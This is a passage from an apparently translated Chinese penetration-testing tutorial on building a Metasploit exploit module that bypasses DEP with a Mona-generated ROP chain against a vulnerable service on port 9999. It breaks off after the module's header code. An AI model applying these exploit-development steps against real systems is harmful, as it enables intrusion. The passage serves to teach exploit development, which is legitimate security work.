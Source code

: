 让我们看看 Mona 脚本创建的 ROP 链，如下所示：

![](img/80399eaa-788b-46d3-9749-d46e0614de54.png)

我们在 Metasploit 的`rop_chains.txt`文件中有一个完整的`create_rop_chain`函数。我们只需要将这个函数复制到我们的应用程序中。

# 为 DEP 旁路编写 Metasploit 漏洞模块

在本节中，我们将为利用堆栈溢出漏洞的同一个易受攻击的应用程序编写 DEP 绕过漏洞攻击，该漏洞攻击在启用 DEP 时失败。应用程序在 TCP 端口`9999`上运行。因此，让我们快速构建一个模块，并尝试在同一应用程序上绕过 DEP：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'                 => 'DEP Bypass Exploit', 
      'Description'    => %q{ 
         DEP Bypass Using ROP Chains Example Module 
      }, 
      'Platform'             => 'win', 
      'Author'         => 
        [ 
          'Nipun Jaswal' 
        ], 
      'Payload' => 
      { 
```